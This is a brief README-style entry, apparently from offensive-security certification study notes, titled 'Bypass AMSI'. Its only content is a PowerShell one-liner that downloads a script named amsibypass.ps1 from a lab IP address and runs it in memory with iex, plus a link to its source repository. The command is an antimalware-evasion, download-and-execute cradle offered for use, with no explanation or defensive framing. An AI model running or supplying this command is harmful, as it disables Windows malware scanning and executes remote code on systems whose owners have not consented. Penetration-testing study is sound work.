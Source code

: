 # Name
Bypass AMSI

## Usage
```
iex (New-Object Net.WebClient).DownloadString("http://192.168.45.198/amsibypass.ps1")
```

## Source
https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI

